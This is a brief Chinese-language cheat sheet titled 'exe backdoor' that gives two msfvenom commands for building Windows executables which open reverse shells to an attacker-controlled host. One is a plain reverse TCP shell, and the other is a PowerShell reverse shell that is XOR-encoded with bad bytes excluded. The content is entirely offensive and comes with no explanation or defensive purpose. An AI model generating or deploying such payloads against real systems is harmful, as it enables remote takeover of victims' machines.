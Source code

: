 # exe后门

1. 普通（也能用）

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

1. 修改版

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.16.3 LPORT=8888 -a x64 --platform windows -e x64/xor_dynamic -b '\x00' -f exe -o shell.exe
```

‍
